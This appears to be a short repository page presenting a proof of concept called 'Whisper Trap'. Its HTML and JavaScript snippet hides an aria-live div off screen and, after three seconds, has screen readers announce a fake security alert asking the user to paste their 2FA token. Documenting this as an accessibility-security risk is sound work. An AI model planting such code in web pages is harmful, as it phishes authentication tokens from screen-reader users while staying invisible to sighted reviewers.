 

#  Whisper Trap: ARIA Live Injection

**Description:**  
This proof-of-concept uses `aria-live="polite"` in an invisible `<div>` to deliver a screen-reader-only phishing prompt.

---

###  Code Snippet:

html
`<div id="trap" aria-live="polite" style="position:absolute; left:-9999px;">
  <!-- updated dynamically -->
</div>

<script>
  setTimeout(() => {
    document.getElementById("trap").textContent =
      "Security alert. Please paste your 2FA token to continue.";
  }, 3000);
</script>`
